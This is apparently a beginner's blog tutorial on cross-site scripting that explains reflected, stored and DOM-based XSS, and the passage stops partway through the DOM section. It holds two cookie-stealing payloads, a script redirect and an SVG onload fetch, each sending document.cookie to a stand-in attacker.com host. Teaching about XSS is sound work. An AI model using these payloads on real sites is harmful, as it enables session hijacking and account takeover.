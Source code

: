 ```yaml
---
title: Basics of Xss
published: true
---
```

Hey Hackers, Today's article will be about Cross-site scripting. We will be discussing about different types of Cross-site scripting but before that we 
need to know what is cross site scripting. So let's get started :)
<p align="center">
  <img src="https://www.davosnetworks.com/wp-content/uploads/2020/07/cross-site-scripting-xss-864x454.jpg" />
</p>
**What is Cross site Scripting?**   
Cross site scripting a.k.a xss is a type of an injection attack where malicious code is being executed on the website i.e. Malicious JavaScript code. Xss is typically can be founded where input fields like search fields, comment fields, or url defined parameters. XSS is marked as A7 on OWASP TOP 10. As from an attacker perspective, xss can allow a hacker to send malicious script to the victim, thus when the victim will execute the script on the browser side, the attacker can retrieve data from the victim or host a malicious code that can gain access to their computer. I think now you got the idea what xss is :p. Let's just cut to the chase and describe the three types of xss. The three types of xss are: -
1. Reflected XSS
2. Stored XSS
3. DOM-Based XSS

**REFLECTED XSS**   
Reflected xss is defined as where the malicious code is being reflected in the website result. Reflected XSS is a non-persistent attack. Let's take a scenario where awebsite https://www.redacted.com has a forum where the comment field is vulnerable to reflected xss. So the attacker will create an xss payload for e.g: - <br>```https://redacted.com/comment/forum_comment=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>```<br>and place it inside the comment field. So whenever the user clicks on the link inside the comment, it will execute and redirect the user to the attacker server and steal their cookie. Thus the attacker can use the cookie in order to impersonate the user. Or more advanced xss would be to install a malware automatically once the victim has been phished to the attacker server and taking control of their computer.
<p align="center">
  <img src="https://blog.sqreen.com/wp-content/uploads/2018/03/reflexted-xss.png"/>
  Kudos to whoever made this amazing diagram :D
</p>   
**STORED XSS**   
Stored xss a.k.a persistent xss is where the malicious code will constantly execute as it is being stored in the server side. This kind of xss is more dangerous than the reflected or DOM-based xss (Will tell you in the next section about DOM :D) as you don't need to lure the target into clicking a link or any sort of as it will execute everytime when the victim visits that page that contains stored xss payload. For instance, there is a website that contains a section to upload an image and the file upload is vulnerable to xss, so the attacker can create the following payload <br>```<svg xmlns="http://www.w3.org/2000/svg" onload=fetch('//attacker.com/?cookie='+document.cookie)/>```<br> and save it in a file with an extension of svg. Finally then uploading it to the website. Everytime the victim visits the malicious image file, their cookies will be stolen and be send over to the attacker server. Thus the attacker can use the cookies and login to the victim's account.<br>
<p align="center">
  <img src="https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/sorted-XSS.png" /><br>
  kudos to imperva :D
</p><br>
**DOM-BASED XSS**   
According to OWASP website, DOM-Based XSS a.k.a 'type-0 XSS' is such where the malicious code affects the DOM model, thus modifying the DOM environment in the victim's browser. The DOM (Document Object Model) can be used to create a cross site scripting attack as it only affects the client side and not the server side. Some famous DOM objects that are used in order to exploit DOM XSS are document.url, document.referrer etc. 
